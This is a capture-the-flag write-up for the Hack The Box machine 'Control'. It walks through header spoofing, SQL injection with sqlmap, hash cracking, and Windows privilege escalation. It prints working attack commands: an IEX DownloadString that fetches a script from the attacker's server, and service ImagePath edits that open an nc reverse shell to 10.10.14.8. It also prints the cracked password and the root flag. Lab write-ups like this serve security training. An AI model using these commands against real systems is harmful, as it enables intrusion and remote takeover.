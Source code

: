 ```yaml
---
title: "Control"
date: 2020-04-25T15:32:15-04:00
draft: false 
---
```


Add to our /etc/hosts:

10.10.10.167      control.htb


Accessing /admin.php gives us an error which can be resolved by adding an X-forwarded-by: header like so:

X-forwarded-for: 192.168.4.28

We can have burpsuite automatically add this hearder to enhance our requests going forward.
Now that we can access the admin.php panel we can look for SQLi in the form. We find one in the productName field and pass the full request to sqlmap like so:

```bash
cat request-sqli

POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.10.167
Connection: close
Referer: http://10.10.10.167/admin.php
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=%27
```


```bash
sqlmap -r request-sqli -p productName --risk=3 --level=3 --os-shell 
```
```bash
sqlmap -r request-sqli -p productName --risk=3 --level=3 -D mysql -T user -C User,Password --dump
```

We can create a file and crack the hashes with john:  

```bash
cat passwords

*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
*0A4A5CAD344718DC418035A1F4D292BA603134D8
*0A4A5CAD344718DC418035A1F4D292BA603134D8
*0A4A5CAD344718DC418035A1F4D292BA603134D8
*0A4A5CAD344718DC418035A1F4D292BA603134D8

john --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

```bash
john --show passwords
l33th4x0rhector
```

hector:l33th4x0rhector

spawn a web_delivery shell with php/meterpreter/reverse_tcp and then portfwd

you can also upload something like plink.exe to get a portfwd going on the box

```bash
portfwd add -l 5985 -p 5985 -r 10.10.10.167

evil-winrm -i 127.0.0.1 -u hector -p l33th4x0rhector
```

read hectors recent powershell activity with:  

```powershell
type C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

we can bypass AV to run powerup invoke-all checks by hosting our own python3 webserver and having the powerup.ps1 filename obfuscated like so:

```bash
ls
cp PowerUp.ps1 blah.ps1
python3 -m http.server
```

on target:

```powershell
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://10.10.14.8:8000/blah.ps1’); Invoke-AllChecks”
```

Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\   | format-list

```powershell
cd C:\Windows\Temp
upload nc.exe
```


get web_delivery via:



setup: nc -lvp 2345

```powershell
$regKeys = get-childItem "HKLM:\SYSTEM\CurrentControlSet\services" -name
$baseCommand="HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\"
foreach ($regKeyName in $regKeys) {reg add "$($baseCommand) + $($regKeyName)" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e powershell 10.10.14.8 2345" /f}
foreach($regKeyName in $regKeys){sc start $regKeyName}
```

or you can do

```powershell
reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\wuauserv /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e powershell 10.10.14.8 2345"  /f

sc start wuauserv
```

root flag
8f8613f5b4da391f36ef11def4cec1b1

